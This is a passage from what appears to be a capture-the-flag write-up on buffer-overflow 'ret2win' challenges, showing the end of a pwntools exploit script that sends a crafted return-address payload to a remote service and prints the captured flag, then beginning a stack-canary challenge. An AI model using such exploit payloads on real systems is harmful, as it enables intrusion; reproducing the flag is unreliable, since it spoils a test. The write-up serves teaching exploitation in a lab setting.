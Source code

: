 ```py
payload += p64(ret_addr) 
payload += p64(win_addr)  


io = remote(host, port)
io.sendline(payload)
io.interactive()
```
![](ret2win2flag.png)
Flag: `TCP1P{pop_rdi_pop_rsi_pop_rdx_sangat_diincar_heker}`

### ret2win 3
##### Author: zran
##### Desc: Salah satu mitigasi dari buffer overflow di stack adalah canary. Canary adalah 8 byte random yang diletakkan sebelum saved RBP. Jadi, kalau kita overwrite saved RIP menggunakan buffer overflow, canary pasti akan ikut berubah. Canary akan diperiksa oleh program setiap sebelum keluar fungsi dan kalau canary-nya berubah dari sebelumnya, berarti telah terjadi buffer overflow dan program akan dihentikan. Tapi, kalau kita tau canary-nya, kita tinggal masukin ke payload kita di offset yang sesuai.
as always, i got the binary file and the netcat service address, this chall talk about canary, lets check It
![](ret2win31.png)
as you can see, the `CANARY` is found, but the weird is the program gives something called `gift`, i think it was canary address, so i think this is easy, cus we can leak all address by this canary address, but first, we need to find the offset